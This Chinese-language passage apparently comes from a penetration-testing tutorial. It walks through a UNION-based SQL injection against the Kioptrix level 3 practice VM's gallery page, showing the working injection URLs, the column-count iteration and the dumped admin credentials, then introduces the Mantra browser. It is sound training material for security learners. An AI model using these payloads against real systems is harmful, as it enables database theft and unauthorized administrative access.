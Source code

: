 ```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users-- 

```

如果您尝试此代码，您会发现它并没有按计划工作。我们需要回到我们的 Web 应用程序测试基础知识，并确定问题所在。让我们在这里尝试一些东西，看看会发生什么。我们将简化查询并查看是否有效。

```
http://kioptrix3.com/gallery/gallery.php?id=null%20and%201=2%20union%20select%201,2,3,4,5,6,7,8 

```

作为回应，我们仍然收到以下错误：

```
The used SELECT statements have a different number of columns. Could not select category

```

如果您熟悉 SQL 注入，您已经知道问题所在。我们正在处理太多列。现在我们将通过列计数进行迭代，直到我们不再收到错误消息。尝试以下操作：

```
http://kioptrix3.com/gallery/gallery.php?id=null%20and%201=2%20union%20select%201,2,3,4,5,6 

```

现在我们看到了更有趣的东西。我们的 SQL 注入成功了！接下来，我们将修改概念证明代码如下，并尝试一下：

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users-- 

```

此命令将为我们提供用户名`admin`和密码`n0t7t1k4`。使用此信息登录[`kioptrix3.com/gallery/gadmin`](http://kioptrix3.com/gallery/gadmin)并浏览一下。您可以访问应用程序的管理员权限，但尚未获得对机器本身的 root 访问权限。现在您知道可以使用 SQL 注入来获取数据库中的任何内容，请考虑您可能还能获取到什么其他信息；也不要忘记我们的文件包含漏洞！我们对 Kioptrix level 3 的旅程尚未完成。

# Mantra 简介

Mantra 浏览器为渗透测试人员提供了许多工具，使 Web 应用程序测试变得高效和有趣。它利用了多年来编写的许多基于浏览器的插件，并可在[`getmantra.com`](http://getmantra.com)上获得。一定要查看该网站提供的一些精心编写和详细的教程，因为它们提供了基本知识以外的用例示例。我们将使用 Mantra 中的插件以高效的方式充分利用我们实验室中的 Kioptrix 3 机器。在这个例子中，我们利用的主要插件是 Hackbar。您可以在[`addons.mozilla.org/en-US/firefox/addon/hackbar/`](http://https://addons.mozilla.org/en-US/firefox/addon/hackbar/)了解更多关于 Hackbar 的信息。Hackbar 和 Mantra 中的其他附加组件使测试 Web 应用程序变得有趣，并允许知识渗透测试人员手动验证 Web 应用程序的安全性。

### 注意

您仍需要了解 Web 应用程序安全性的工作原理，以及如何手动执行这些测试；Mantra 只是通过提供许多手动测试所需的工具，使这个过程更加方便和高效。使用 Mutillidae 安装来填补您在测试常见 Web 应用程序安全问题方面的任何空白。

1.  我们的第一步是在 BackTrack 机器上打开 Mantra 浏览器。可以通过导航菜单选择**BackTrack** | **Vulnerability Assessment** | **Vulnerability Scanners** | **Mantra**找到 Mantra。

1.  在 Mantra 中，使用浏览器的 URL 导航栏（[`kioptrix3.com`](http://kioptrix3.com)）浏览托管在您的 Kioptrix 1.2 虚拟服务器上的网页。
